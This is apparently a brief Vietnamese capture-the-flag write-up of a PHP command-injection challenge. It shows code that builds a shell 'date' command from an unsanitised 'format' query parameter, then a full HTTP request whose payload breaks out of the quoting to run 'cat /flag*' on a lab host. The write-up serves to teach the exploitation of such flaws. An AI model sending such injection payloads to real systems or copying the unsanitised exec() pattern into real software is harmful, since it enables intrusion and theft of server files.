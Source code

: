Đọc code thì thấy bài này liên quan đến comand injection

Mình sẽ show đoạn code cần quan tâm

Nôm na đoạn này ta chỉ cần thêm tham số /?format=...
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
Hàm này sẽ thực thi nhưng chú ý ta cần phải bypass commnad
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Payload:
```
GET /?format=%Y-%m-%d%2b%H:%M:%S'|cat+/flag*+%23 HTTP/1.1
Host: 18.143.200.117:31210
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Source: https://book.hacktricks.xyz/pentesting-web/command-injection

